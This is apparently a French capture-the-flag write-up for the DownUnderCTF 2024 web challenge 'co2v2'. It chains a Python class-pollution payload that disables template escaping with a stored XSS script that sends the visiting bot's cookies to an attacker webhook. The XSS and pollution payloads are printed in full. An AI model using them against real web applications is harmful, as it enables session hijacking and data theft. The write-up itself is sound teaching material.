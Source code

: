 ```yaml
---
title: "co2v2"
excerpt: "Web, downunder 2024"
coverImage: "https://ctftime.org/media/cache/35/81/35817b4272fa1b66cf3617ab4d4ab0c0.png"
date: "2024-07-08"
author:
  name: dolipr4necrypt0
  picture: "/assets/blog/authors/dolipr4necrypt0.png"
ogImage:
  url: "https://ctftime.org/media/cache/35/81/35817b4272fa1b66cf3617ab4d4ab0c0.png"
---
```


[Source du challenge](https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web/co2v2/src)

Ce challenge est la suite de co2 dans laquelle on a trouvé une vulnérabilité de type prototype pollution : [https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution). Cette vulnérabilité nous permettait de réécrire n'importe quelle variable globale à travers la route /save_feedback avec comme payload ```{"__class__":{"__init__":{"__globals__":{"GLOBAL_VAR":"VALUE"}}}}```. Ce payload nous permet de remonter la hiérarchie python jusqu'à tomber sur l'objet __globals__ et ainsi accéder aux dictionnaires des variables globales.

Dans ce challenge, la première chose que l'on remarque c'est la présence d'un bot xss avec le flag dans les cookies. Lorsqu'on accède à la route /api/v1/report, on déclenche le bot xss qui visit la page d'accueil. On sait donc que l'on doit introduire un script js dans la page d'accueil. Ce qui tombe bien vu que les blog posts sont affichés sur l'accueil lorsque les posts sont publics.

On commence par introduire des simples balises html dans un post pour voir le résultat, malheureusement le html n'est pas interprété. En lisant le code, on voit que notre input est passé directement dans la base de donnée sans modification. On remarque aussi une variable globale intéressante TEMPLATES_ESCAPE_ALL = True, qui va faire le lien avec le premier challenge. Cette variable globale est passé au moteur de Template qui va s'occuper de l'escaping.

On peut passer TEMPLATES_ESCAPE_ALL à False grâce à la vulnérabilité du premier challenge. Cependant, nos balises html ne sont toujours pas interprétés. Le problème est que le moteur de template est chargé une unique fois au démarrage et que la modification de TEMPLATES_ESCAPE_ALL n'est pas suffisante. Il nous faut recharger le moteur de Template avec la modification de notre variable. Heureusement, la route /admin/update-accepted-templates nous permet de faire cette action.

Cette fois ci, les balises html sont interprétés. Pour finir, ils nous suffit d'introduire le script suivant dans un blog post public
```javascript
<script>fetch("http://<webhook>/"+btoa(document.cookie))</script>
```
 et de trigger la visite du bot xss pour récupérer les cookies et le flag.
